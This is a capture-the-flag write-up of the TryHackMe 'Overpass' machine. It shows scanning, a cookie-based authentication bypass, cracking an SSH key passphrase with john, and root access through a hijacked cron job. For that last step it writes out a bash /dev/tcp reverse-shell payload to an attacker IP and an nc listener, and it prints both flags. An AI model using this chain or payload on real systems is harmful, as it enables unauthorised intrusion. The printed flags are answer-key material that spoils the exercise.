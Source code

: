 # Overpass

> Platform: TryHackMe
>
> Created by: NinjaJc01
>
> Difficulty: Easy

## Reconnaisance

First of all, we will begin with the Nmap which requires us to answer some of the questions.
```bash
$ nmap -sSVC <TARGET-IP> -T5 -Pn -n -vvv -oA overpassscan
```
Actually, you can just use a normal Nmap command, but here is my preferences.

After finish scanning the machine, now we can answer some of the questions:

![img](portopen.png)

Then, to know the hidden directory of the target, we need to run the GoBuster tool.
```bash
$ gobuster dir -u http://<TARGET-IP>/ -w /usr/share/wordlists/dirb/common.txt
```

![img](gobuster.png)

## Exploitation

After that, when inspecting the **"/admin"** page, we found out that actually there are several **.js** script, which the **"login.js"** scripts shows us it has **broken authentication vulnerability**.

```js
// snippet from login.js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

First, it will check if the **statusOrCookie is exactly equal to the string "Incorrect credentials"**, it will output it as Incorrect credentials. However, if we **set the cookies name as SessionToken with any value**, it will **redirect us the the /admin** page which **may reveal some information**.

![img](cookies.png)

Then, check the page:

![img](key.png)

Now, **copy the private key** into a file and try place it in **~/.ssh/sshprivkeyfile with 600 permission**.
```bash
$ echo "-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBB... and so on
-----END RSA PRIVATE KEY-----" > ~/.ssh/overpass_id_rsa

$ chmod 600 ~/.ssh/overpass_id_rsa
```

Now, let's try to SSH to the server with **james** as the username, which we **get from the /admin page before** with the SSH Private key just now.
```bash
$ ssh james@<TARGET-IP> -i ~/.ssh/overpass_id_rsa
Enter passphrase for key '/home/kali/.ssh/overpass_id_rsa':
```

However, it ask us the **passphrase key**. For this, let's try to **crack the SSH private key first**. For me, I copy the file first to my working directory.
```bash
$ cp ~/.ssh/overpass_id_rsa /PATH/TO/YOUR/WORKING/DIRECTORY

$ cd /PATH/TO/YOUR/WORKING/DIRECTORY

$ ssh2john overpass_id_rsa > ssh.hash

$ john ssh.hash
james13
```

Now, after getting the **passphrase key**, we can **connect to the server using SSH**.
```bash
$ ssh james@<TARGET-IP>
Enter passphrase for key '/home/kali/.ssh/overpass_id_rsa': <passphrase-key>
```

![img](ssh.png)

So now, we need to find the **user.txt** and read it.
```bash
$ ls
todo.txt  user.txt

$ cat user.txt
thm{65c1aaf000506e56996822c6281e6bf7}
```

## 🏳️Flag: user.txt
>**thm{65c1aaf000506e56996822c6281e6bf7}**

## Privilege Escalation

Moving on to **escalate our privileges to root**.

First, let's try to **check the content of the other ".txt"** file in the directory.
```bash
$ cat todo.txt
```

![img](todo.png)

Based on these content, it says that **they have automated build script working**. So, try to check the crontab as **cron usually will be used to automate running any task that we set in it** which can be view from:
```bash
$ cat /etc/crontab
```

![img](crontab.png)

From what we can see here, for **every minute**, the user **root will run curl command to the "overpass.thm/downloads/src/buildscript.sh"**, which will **retrieve the buildscript.sh** and **run the script in bash**.

Why it is dangerous? From this, if the **attacker able to change the overpass.thm to the attacker machine** and **host the buildscript.sh which containing the reverse shell**, the **attacker able to gain the shell in root privilege**.

Try to **"check the /etc/hosts"** file:
```bash
$ cat /etc/hosts
```

![img](hostsbefore.png)

So now, try to create the **"/downloads/src"** directory in our devices **root** directory and **create the buildscript.sh file which contains the reverse shell payload** which can be get from the [Reverse Shell Generator](https://www.revshells.com/) page.
```bash
$ cd /

$ mkdir -p downloads/src; cd downloads/src

$ sudo nano buildscript.sh
```

Then, paste the reverse shell payload:
```bash
bash -i >& /dev/tcp/<ATTACKER-IP>/<ATTACKER-PORT> 0>&1
```

Next, in Attacker device, make sure to **open 2 terminal** to run the command below:

In Terminal 1:
```bash
$ cd /

$ python3 -m http.server
```

In Terminal 2:
```bash
$ nc -lvnp <ATTACKER-PORT>
```

Lastly, in the machine, we need to change the **/etc/hosts "overpass.thm"** to our IP:
```bash
$ nano /etc/hosts
```

Change the 
```bash
127.0.0.1 overpasss.thm
```

To:
```bash
<ATTACKER-IP> overpass.thm
```

![img](hostsafter.png)

Now, we need to wait and read the **"root.txt"** file to complete this machine.

![img](rootflag.png)

## 🏳️Flag: root.txt
>**thm{7f336f8c359dbac18d54fdd64ea753bb}**